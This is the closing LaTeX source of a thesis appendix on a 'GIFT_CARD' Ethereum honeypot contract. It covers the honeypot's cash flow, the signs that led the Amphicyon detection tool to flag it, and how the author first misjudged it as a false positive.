A strong indicator that the transaction with the higher gas price was issued by the same person that created the honeypot can be seen in the cash flow graph, that is displayed in figure \ref{figure:appendix:giftcard:transactiongraph}: The address starting with \texttt{0xbd7d} that withdrew the bait along with the yielded ether had indirectly sent the Ether to the address starting with \texttt{0xff17} that created the honeypot contract.

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[width=14cm]{img/giftcard/cashflowgraph.pdf}
	\captionof{figure}[Cash flow of GIFT_CARD]{Cash flow of the \texttt{GIFT_CARD}-honeypot. Contracts are rectangles, user addresses are drawn ovals.}
	\label{figure:appendix:giftcard:transactiongraph}
\end{minipage}

\subsection{Amphicyon Analysis Result}
This smart contract was only detected by \textsc{Amphicyon} during the mass-analysis of the latest 8000 smart contracts on Etherscan. While of course no underhanded solidity pattern could be detected, the contract was flagged due to different reasons, as can be seen in figure \ref{figure:appendix:giftcard:amphicyon}.

Next to standard, but not very strong signs of a honeypot like an uppercase name or the ability to send ether, some other typical honeypot coding pattern could be found: A initialization phase was implemented, and many functions were surrounded with an \mintinline{solidity}{if}-clause making the function fail silently if the condition evaluated to be wrong. Especially the later ones increased the honeypot probability ratio and therefore made \textsc{Amphicyon} flag the contract.

\vspace{1em}
\begin{minipage}{\linewidth}
	\centering
	
\includegraphics[width=12cm]{img/giftcard/analysis.pdf}
	\captionof{figure}[Amphicyon analysis of GIFT_CARD]{Analysis of the \texttt{GIFT_CARD}-contract using Amphicyon.}
	\label{figure:appendix:giftcard:amphicyon}
\end{minipage}

While manually categorizing the flagged contracts, the author first wrongly assumed this contract to be a false positive, because no internal zero-value transactions could be found on alternative blockchain explorers and there was no trace of underhanded Solidity code. The only way to recognize this type of honeypot is after it has latched -- which in this case had already happened leaving behind the suspicious two almost identical transactions at the same block height with a very different gas prices.

\pagebreak{}



\end{document}
